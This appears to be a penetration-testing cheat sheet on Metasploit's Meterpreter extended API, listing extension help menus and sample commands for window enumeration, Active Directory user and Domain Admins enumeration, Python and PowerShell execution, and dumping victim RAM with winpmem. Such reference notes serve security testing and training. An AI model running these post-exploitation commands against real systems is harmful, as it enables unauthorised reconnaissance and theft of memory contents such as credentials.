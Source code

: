 # 03 - ExtAPI

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

TODO: Provide usage examples

## 3.1 - Help Menu

```
meterpreter > load extapi
```

```
meterpreter > load powershell

Powershell Commands
===================

    Command                    Description
    -------                    -----------
    powershell_session_remove  Remove/clear a session (other than default)
```

```
meterpreter > load python

Python Commands
===============

    Command         Description
    -------         -----------
    python_execute  Execute a python command string
    python_import   Import/run a python file or module
    python_reset    Resets/restarts the Python interpreter
```

https://buffered.io/posts/3-months-of-meterpreter/

```
meterpreter > irb

>> client.extapi.window.enumerate.each {|w| client.railgun.user32.SetWindowTextA(w[:handle], "PWNED!")}
```

```
meterpreter > window_enum -h

Usage: window_enum [-h] [-p parent_window] [-u]

Enumerate the windows on the target.

Enumeration returns the Process ID and Window Handle for each window
found. The Window Handle can be used for further calls to window_enum
or the railgun API.

OPTIONS:

    -h        Help banner
    -p <opt>  Parent window handle, used to enumerate child windows
    -u        Include unknown/untitled windows in the result set

Note: Not all windows can be enumerated. An attempt to enumerate
      the children of such a window will result in a failure with the
      message "Operation failed: The parameter is incorrect."
```

```
meterpreter > window_enum

meterpreter > window_enum -p <parent_window>

meterpreter > window_enum -u
```

https://labs.withsecure.com/publications/active-directory-users-in-nested-groups-reconnaissance
https://www.darkoperator.com/blog/2014/1/29/enumeration-using-the-meterpreter-adsi-extended-api-commands

```
meterpreter > adsi_nested_group_user_enum [<subdomain>.]<domain>.<tld> "CN=Domain Admins,CN=Users,DC=demo,DC=mwr"
```

```
meterpreter > adsi_domain_query acmelab1 (&(objectCategory=person)(objectClass=user)

meterpreter > adsi_domain_query acmelab1 (objectclass=organizationalunit) name distinguishedname 
```

```
meterpreter > load winpmem

Winpmem Commands
================

    Command       Description
    -------       -----------
    dump_ram      Dump victim RAM
```

---
## References

### OJ's Perspective

- [OJ's Perspective: 3 Months of Meterpreter](https://buffered.io/posts/3-months-of-meterpreter/)